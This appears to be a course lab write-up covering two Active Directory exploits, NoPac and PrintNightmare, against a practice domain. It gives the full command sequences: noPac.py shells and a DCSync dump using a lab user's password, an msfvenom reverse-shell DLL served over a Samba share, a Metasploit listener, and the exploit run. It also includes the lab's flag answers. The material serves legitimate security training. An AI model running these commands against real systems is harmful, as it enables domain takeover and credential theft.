

<div align='center'>

# **Lab 19: Bleeding Edge Vulnerabilities** 

</div>

## **CVE-2021-42278&CVE-2021-42287: NoPac (SamAccountName Spoofing)**

**Question:** Which two CVE's indicate NoPac.py may work? (Format: ####-#####&####-#####, no spaces)
- **Answer:** 2021-42278&2021-42287


**Scanning for NoPac**

We can use the scanner with a standard domain user account to attempt to obtain a TGT from the target Domain Controller. If successful, this indicates the system is, in fact, vulnerable

```zsh
python3 scanner.py inlanefreight.local/forend:Klmcargo2 -dc-ip 172.16.5.5 -use-ldap
```


**Running NoPac & Getting a Shell**

Obtain a shell with SYSTEM level privileges

```zsh
python3 noPac.py INLANEFREIGHT.LOCAL/forend:Klmcargo2 -dc-ip 172.16.5.5  -dc-host ACADEMY-EA-DC01 -shell --impersonate administrator -use-ldap
```


NoPac.py does save the TGT in the directory on the attack host where the exploit was run.


We could then use the ccache file to perform a pass-the-ticket and perform further attacks such as DCSync

**Using noPac to DCSync the Built-in Administrator Account**

```zsh
python3 noPac.py INLANEFREIGHT.LOCAL/forend:Klmcargo2 -dc-ip 172.16.5.5  -dc-host ACADEMY-EA-DC01 --impersonate administrator -use-ldap -dump -just-dc-user INLANEFREIGHT/administrator
```


## **CVE-2021-34527&CVE-2021-1675: PrintNightmare**

**Enumerating for MS-RPRN**

```zsh
rpcdump.py @172.16.5.5 | egrep 'MS-RPRN|MS-PAR'
```


**Generating a DLL Payload using Metasploit**

```zsh
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=172.16.5.225 LPORT=8080 -f dll > backupscript.dll
```

Save the DLL payload to the `/tmp/` directory on the attack host



**Editing smb config file**

Edit the `/etc/samba/smb.conf` file to include the following lines:

```
[global]
    map to guest = Bad User
    server role = standalone server
    usershare allow guests = yes
    idmap config * : backend = tdb
    smb ports = 445

[smb]
    comment = Samba
    path = /tmp/
    guest ok = yes
    read only = no
    browsable = yes
    force user = nobody
```


Start the smbd service

```zsh
sudo service smbd start
```

**Configuring & Starting MSF multi/handler (msfconsole)**

```zsh
use exploit/multi/handler
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST 172.16.5.225
set LPORT 8080
run
```


**Running the exploit**

```zsh
python3 CVE-2021-1675.py inlanefreight.local/forend:Klmcargo2@172.16.5.5 '\\172.16.5.225\smb\backupscript.dll'
```


**Getting the SYSTEM Shell**


**Question:** Apply what was taught in this section to gain a shell on DC01. Submit the contents of flag.txt located in the DailyTasks directory on the Administrator's desktop.

```powershell
cd C:\Users\Administrator\Desktop\DailyTasks
type flag.txt
```


- **Answer:** D0ntSl@ckonN0P@c!


